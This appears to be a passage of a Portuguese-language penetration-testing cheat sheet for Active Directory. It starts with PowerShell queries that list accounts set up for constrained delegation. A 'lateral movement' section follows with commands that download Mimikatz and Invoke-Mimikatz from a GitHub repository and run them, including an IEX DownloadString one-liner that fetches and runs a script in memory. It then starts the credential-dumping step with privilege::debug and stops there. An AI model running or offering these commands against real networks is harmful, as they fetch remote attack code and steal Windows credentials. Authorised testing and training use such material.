 




```
$FormatEnumerationLimit=-1
Get-ADComputer -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties * | select samaccountname, msDS-AllowedToDelegateTo | Out-String -Width 4096
Get-ADComputer -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties * | select samaccountname, msDS-AllowedToDelegateTo | fl | Out-String -Width 4096
```
ENCONTRAR APENAS USUARIOS
```
$FormatEnumerationLimit=-1
Get-ADUser -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties * | select samaccountname, msDS-AllowedToDelegateTo | Out-String -Width 4096
Get-ADUser -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties * | select samaccountname, msDS-AllowedToDelegateTo | fl | Out-String -Width 4096
```
































# LATERAL MOVEMENT - ACTIVE DIRECTORY
## LATERAL MOVEMENT - MIMIKATZ
##### LATERAL MOVEMENT MIMIKATZ - LOAD REQUIREMENTS
```
curl https://github.com/n0ts0cial/oscp/raw/main/mimikatz_trunk.zip -Outfile mimikatz_trunk.zip
expand-archive -path ".\mimikatz_trunk.zip" -destinationpath ".\"
cd x64
.\mimikatz.exe
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/x64/mimikatz.exe -Outfile mimikatz.exe
.\mimikatz.exe
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1 -Outfile Invoke-Mimikatz.ps1
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1")
Invoke-Mimikatz
```
##### LATERAL MOVEMENT MIMIKATZ - DUMP CREDENTIAL LOCAL MACHINE
```
Privilege::debug
```